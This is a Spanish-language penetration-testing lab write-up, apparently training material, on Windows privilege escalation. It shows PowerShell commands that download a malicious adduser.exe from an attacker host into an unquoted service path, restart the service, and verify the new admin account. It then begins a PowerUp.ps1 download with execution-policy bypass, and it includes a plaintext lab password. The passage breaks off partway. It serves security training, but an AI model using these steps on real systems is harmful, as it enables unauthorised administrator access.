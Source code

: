 Afortunadamente, nuestro usuario dispone de permisos para escribir sobre uno de dichos directorios. Generamos el código malicioso como lo hesmo hecho en anteriores veces y lo transferimos a la máquina

 ```
PS C:\Users\steve> iwr -uri http://192.168.119.3/adduser.exe -Outfile Current.exe

PS C:\Users\steve> copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'
```

Seguidamente reiniciamos el servicio y comprobamos los efectos:

```
PS C:\Users\steve> Start-Service GammaService
Start-Service : Service 'GammaService (GammaService)' cannot be started due to the following error: Cannot start
service GammaService on computer '.'.
At line:1 char:1
+ Start-Service GammaService
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OpenError: (System.ServiceProcess.ServiceController:ServiceController) [Start-Service],
   ServiceCommandException
    + FullyQualifiedErrorId : CouldNotStartService,Microsoft.PowerShell.Commands.StartServiceCommand
    
PS C:\Users\steve> net user

Administrator            BackupAdmin              dave
dave2                    daveadmin                DefaultAccount
Guest                    offsec                   steve
WDAGUtilityAccount
The command completed successfully.

PS C:\Users\steve> net localgroup administrators
...
Members

-------------------------------------------------------------------------------
Administrator
BackupAdmin
dave2
daveadmin
offsec
The command completed successfully.
```

Podemos repetir este mismo proceso con PowerUp.

Primero, nos logeamos en la máquina con el usuario steve:securityIsNotAnOption++++++, transferimos el script de PowerUp.ps1:

```
C:\Users\steve>powershell -ep bypass                                                                                    Windows PowerShell                                                                                                      Copyright (C) Microsoft Corporation. All rights reserved.                                                               
Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\steve> Invoke-WebRequest -Uri http://192.168.45.241/PowerUp.ps1 -OutFile PowerUp.ps1
PS C:\Users\steve> dir


    Directory: C:\Users\steve


Mode                 LastWriteTime         Length Name
```